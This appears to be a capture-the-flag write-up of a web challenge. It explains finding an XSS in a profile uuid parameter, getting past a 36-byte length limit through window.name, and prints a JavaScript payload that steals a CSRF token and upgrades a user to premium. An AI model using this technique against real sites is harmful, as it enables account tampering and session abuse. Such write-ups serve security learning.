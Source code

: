 This site supports some simple functions such as login、register、profile、support.

When we change support's link, we can let server access our site.

After receiving the request, we can find the client is Firefox, so there is no XSS Auditor.

Content-Security-Policy looks like:

``Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;``

After some test, we find there is an XSS in profile with uuid. However, the payload limit to 36 bytes. But We can use ``window.name`` to bypass this limit. We can use ``window.open`` to open a new window with a long ``window.name`` which contain our payload, and execute it with ``$.globalEval(name)``. Our payload looks like:

```javascript
window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `
    $.get("manage.php", function(data){    
            var t = /name="token" value="([^"]+)/.exec(data);
            $.post("manage.php", {user_uuid: "0de84e6e-3185-4f61-9f5b-42dd3d450018", token: t[1], status: "premium"}); 
     });
`);
```
